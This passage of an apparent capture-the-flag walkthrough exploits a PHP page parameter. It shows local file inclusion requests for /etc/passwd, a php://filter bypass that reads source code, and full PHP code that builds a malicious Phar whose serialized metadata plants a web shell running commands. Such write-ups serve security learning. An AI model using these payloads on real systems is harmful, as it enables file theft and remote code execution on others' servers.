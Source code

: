 - **Observation**: The `page` parameter is used in an `include()` function.
- **Test for LFI (Local File Inclusion)**:

  - Try accessing sensitive files:

    ```
    http://<EXTERNAL_IP>/?page=/etc/passwd
    ```

  - **Result**: Likely to fail due to `include()` adding `.php`.

- **Bypass Technique**:

  - Use `php://filter` to read files:

    ```
    http://<EXTERNAL_IP>/?page=php://filter/convert.base64-encode/resource=index
    ```

  - **Result**: Might get the base64-encoded content of `index.php`.

### **2. Exploit Phar Deserialization**

#### **a. Understanding the Attack Vector**

- **Phar Archives**: PHP can treat Phar files as archives and process them with file functions.
- **Include Vulnerability**: Including a Phar file can trigger deserialization of its metadata.
- **Goal**: Create a malicious Phar file that, when included, executes code via the `__destruct()` method of the `Logger` class.

#### **b. Create the Malicious Phar**

- **On Your Local Machine**:

  - **Create `exploit.php`**:

    ```php
    <?php
    class Logger {
        public $logFile;
        public $initMessage;
        public $exitMessage;

        function __construct() {
            $this->initMessage = "Init message.\n";
            $this->exitMessage = "<?php system($_GET['cmd']); ?>\n";
            $this->logFile = "phar://hack.phar/test.txt";
        }
    }

    $logger = new Logger();

    @unlink("hack.phar");

    $phar = new Phar("hack.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->addFromString("test.txt", "test");
    $phar->setMetadata($logger);
    $phar->stopBuffering();
    ?>
    ```

